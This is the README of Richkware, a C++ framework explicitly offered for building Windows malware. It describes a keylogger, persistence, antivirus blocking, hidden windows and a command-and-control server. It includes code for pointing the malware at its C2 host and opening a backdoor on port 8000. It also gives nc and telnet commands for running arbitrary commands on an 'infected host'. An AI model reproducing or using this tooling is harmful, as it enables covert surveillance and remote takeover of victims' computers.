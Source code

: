 # Richkware

[![Codacy Badge](https://api.codacy.com/project/badge/Grade/e6b4a003d5e7404c80225391bfe34f45)](https://app.codacy.com/app/richkmeli/Richkware?utm_source=github.com&utm_medium=referral&utm_content=richkmeli/Richkware&utm_campaign=Badge_Grade_Dashboard)
[![Build status](https://ci.appveyor.com/api/projects/status/1tn6vedeaq0v27ra?svg=true)](https://ci.appveyor.com/project/richkmeli/richkware)

Framework for building Windows malware, written in C++.

## Description

Richkware is a library of network and OS functions, that you can use to create malware.
The composition of these functions permits the application to assume behaviors referable to the following types of malware:

- Virus
- Worms
- Bot
- Spyware
- Keylogger
- Scareware

## Related Projects

[Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server): Service for the management of hosts in which is present an instance of malware developed using **Richkware** framework.

[Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client): Client of **Richkware-Manager-Server**, that it obtains the list of all hosts from the server and it's able to send any kind of commands to them.

![](http://richk.altervista.org/RichkwareDiagram.svg)

## Documentation

|              | EN                          | IT                     |
|--------------|:------------------------------:|:------------------:|
| Presentation | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Slide.pdf)  | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Slide.pdf)     |
| Report       | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/EN/Report.pdf) | [PDF](https://github.com/richkmeli/Richkware/blob/master/doc/IT/Relazione.pdf) |

## Functions

### Network

- **Server** (*network.h*): module for the management of a multi-thread server, that allow to receive commands from Internet([Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client) or console) according to the specific protocol.
    - **Protocol** (*protocol.h*):
        1. **Remotely command execution** (ID 1)
        2. (work in progress)
- **Network** (*network.h*):
    - **RawRequest**: send a request to a server;
    - **UploadInfoToRichkwareManagerServer**: send information to [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

### System

- **Storage** (*storage.h*):
    - **SaveSession** and **LoadSession**: save the application state(encrypted) to:
        - **Register** (SaveValueReg and LoadValueReg)
        - **File** (SaveValueToFile and LoadValueFromFile)
    - **Persistence**: install itself permanently in the system.
- **IsAdmin** and **RequestAdminPrivileges** (*richkware.h*): check and require administrator privileges;

- **StealthWindow** (*richkware.h*): hide applications;
- **OpenApp** (*richkware.h*): open arbitrary applications;
- **Keylogger** (*richkware.h*): stores in a file all pressed keys;
 - **BlockApps** e **UnBlockApps** (*blockApps.h*): block and unblock applications (antivirus, ...).

### Cryptography

- **Encrypt and Decrypt** (*crypto.h*): [RC4](https://en.wikipedia.org/wiki/RC4) (default), [Blowfish](https://en.wikipedia.org/wiki/Blowfish_(cipher)).
- **Encode and Decode** (*crypto.h*): [Base64](https://en.wikipedia.org/wiki/Base64) (defualt), [Hex](https://en.wikipedia.org/wiki/Hexadecimal#Transfer_encoding).

![](http://richk.altervista.org/RichkwareCryptographyDiagram.svg)

### Other

- **RandMouse** (*richkware.h*): move randomly the mouse cursor;
- **Hibernation** (*richkware.h*): hibernate system.

## Requirements
These are the base requirements to build and use Richkware:

- Make or CMake
- [MinGW](http://www.mingw.org/)

## Get Started
Open main.cpp, and create an instance of Richkware.
### With [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)
If you have deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can initialize the malware as follows:

        int main() {
               Richkware richkware("Richk","DefaultPassword","192.168.99.100", "8080", "associatedUser");
                ...
                return 0;
            }
        
that it gets a secure key from Richkware-Manager-Server and it sets the key as encryption key.
**DefaultPass** is used as temporary encryption key to ensure a secure communication with RMS and if the malware cannot reach the RMS for getting its encryption ket, it will use DefaultPass as encryption key.


### Without [Richkware-Manager-Server](https://github.com/richkmeli/Richkware-Manager-Server)

Otherwise, if you haven't deployed [RMS](https://github.com/richkmeli/Richkware-Manager-Server), you can use: 
         
     Richkware richkware("Richk","richktest");
         
 in this way, it uses "richktest" as encryption key.
     


## Compile

After **main.cpp** implementation, you can compile as follows.

### Using MinGW for Windows or MinGW cross compiler for Linux build environment

	make

### Using Microsoft C++ compiler (Visual Studio)
- C/C++ > Preprocessor > Preprocessor Definitions, add "\_CRT\_SECURE\_NO\_WARNINGS" 
- Linker > Input > Additional Dependencies, add "Ws2_32.lib"

## Examples of usage
In the following example, we call "**server**", a malware developed using Richkware framework and in which it has been enabled the function for creating a server, and "**client**", the creator(Hacker) of the malware that is trying to establish a connection with the infected PC.

### Server-side

#### Remotely Command Execution

Call framework function **StartServer** in the main, it starts server on a port, in the following example is the TCP port 8000. Remember that if a port is already used by another program, you can't use that port, until the program will be stopped.

	int main () {
	    ...
		richkware.network.server.Start("8000");
        ...
	}

### Client-side

#### Connect using [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client)
In all systems where the Java Virtual Machine is installed, you can use [Richkware-Manager-Client](https://github.com/richkmeli/Richkware-Manager-Client), otherwise if it's not present you can easily use a terminal.

#### Connect using terminal in Unix systems

In Unix systems, you can use **netcat**, and run the following command:

	nc <serverName> 8000
	
if the server received the request on the open port and it succeeds to create a connection, it responses to the client confirming the establishment of the connection, after that, you can write:
    
    [[1]]COMMAND
    
where *COMMAND* is a command that has to be executed on the infected host where server is running.

#### Connect using terminal in Windows

In Windows, you can use **telnet**, in the same way:

	telnet <serverName> 8000

...
    
    [[1]]COMMAND
    
